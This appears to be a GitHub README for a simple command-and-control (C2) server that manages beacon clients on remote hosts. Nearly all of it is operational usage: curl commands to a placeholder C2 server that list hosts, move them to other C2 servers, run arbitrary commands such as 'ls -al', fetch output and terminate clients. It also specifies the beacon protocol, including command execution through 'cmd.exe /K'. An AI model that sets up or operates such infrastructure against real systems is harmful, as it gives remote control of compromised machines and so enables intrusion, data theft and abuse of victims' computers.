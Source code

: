 # c2

Simplistic C2 infra using fairly dumb beacon clients. 

## Usage

```
sh install.sh # install dependencies and generate self signed cert
sudo python3 server.py 443 # sudo only required to run on port 443

# list hosts
curl -X POST --insecure https://x.x.x.x/cmd -d "SECRET:L::"

# migrate host to other c2 servers
curl -X POST --insecure https://x.x.x.x/cmd -d "SECRET:N:HOST:y.y.y.y:y,z.z.z.z:z"

# execute command on host
curl -X POST --insecure https://x.x.x.x/cmd -d "SECRET:C:HOST:ls -al"

# show command output from host
curl -X POST --insecure https://x.x.x.x/cmd -d "SECRET:I:HOST:"

# terminate client on host
curl -X POST --insecure https://x.x.x.x/cmd -d "SECRET:T:HOST:"
```

## Client Specification

```
POST / HTTP/1.1
host: proxy-to-c2

IDEN:OUTPUT...

HTTP/1.1 200 OK

C:PARAMETERS...
```

- `IDEN`: Random 4 letter identifier for host ie. `KUqT`.
- `OUTPUT`: Output generated by last command or nothing.
- `C`: Single letter command identifier:
    - `T`: Terminate C2 client.
    - `N`: Use C2 servers in comma delimited list `PARAMETERS`.
    - `C`: Execute command ie. `cmd.exe /K <PARAMETERS>`.
- `PARAMETERS`: Parameters required by command or nothing.
